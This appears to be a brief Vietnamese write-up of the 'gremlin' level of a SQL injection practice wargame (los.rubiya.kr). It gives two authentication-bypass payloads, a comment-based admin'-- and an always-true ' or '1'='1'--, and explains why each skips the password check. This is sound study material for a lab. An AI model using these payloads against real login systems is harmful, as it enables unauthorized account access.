 
gremlins

```
https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=admin'--&pw='123'
```
- sau dấu -- là hần cmt đã đóng lại sẽ lấy được tài khoản mà không cần mật khẩu
=> Giả vờ đăng nhập với id=admin, sau đó dùng comment để bỏ qua mật khẩu.
- hoặc là dùng 
```
id=' or '1'='1'--&pw='123' => trả ra kết quả luôn đúng
```
=> Không cần biết tài khoản gì, chỉ cần tạo điều kiện logic luôn đúng để query trả về kết quả.
